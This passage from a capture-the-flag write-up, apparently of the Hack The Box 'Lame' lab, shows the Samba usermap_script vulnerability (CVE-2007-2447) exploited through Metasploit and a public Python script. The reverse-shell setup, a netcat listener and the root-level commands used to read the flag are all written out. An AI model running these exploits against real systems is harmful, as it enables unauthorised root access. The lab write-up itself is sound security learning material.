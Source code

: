 msf6 exploit(multi/samba/usermap\_script) > set lhost tun0
lhost => tun0
msf6 exploit(multi/samba/usermap\_script) > set rhosts 10.10.10.3
rhosts => 10.10.10.3
msf6 exploit(multi/samba/usermap\_script) > run

\[\*\] Started reverse TCP handler on 10.10.14.21:4444 
\[\*\] Command shell session 1 opened (10.10.14.21:4444 -> 10.10.10.3:34722 ) at 2022-01-13 13:36:24 -0500

ls
bin
boot
cdrom
dev
etc
home
initrd
initrd.img
initrd.img.old
lib
lost+found
media
mnt
nohup.out
opt
proc
root
sbin
srv
sys
tmp
usr
var
vmlinuz
vmlinuz.old
id
uid=0(root) gid=0(root)
cat /root/root.txt
19942...rootFlag...73328

### SMB - Python Script

After confirming the metasploit module worked, I tried to also exploit it without the use of metasploit. Luckily, there were a lot of exploit scripts available. I decided to go with [https://github.com/amriunix/CVE-2007-2447](https://github.com/amriunix/CVE-2007-2447). The installation was simple, just installing some modules with pip and setting up a netcat listener, and then everything was good to go:

~ » nc -nlvp 5555
listening on \[any\] 5555 ...

... separate terminal ...
~/Documents/htb/lame/CVE-2007-2447 (master) » python3 usermap\_script.py 10.10.10.3 139 10.10.14.21 5555          
\[\*\] CVE-2007-2447 - Samba usermap script
\[+\] Connecting !
\[+\] Payload was sent - check netcat !
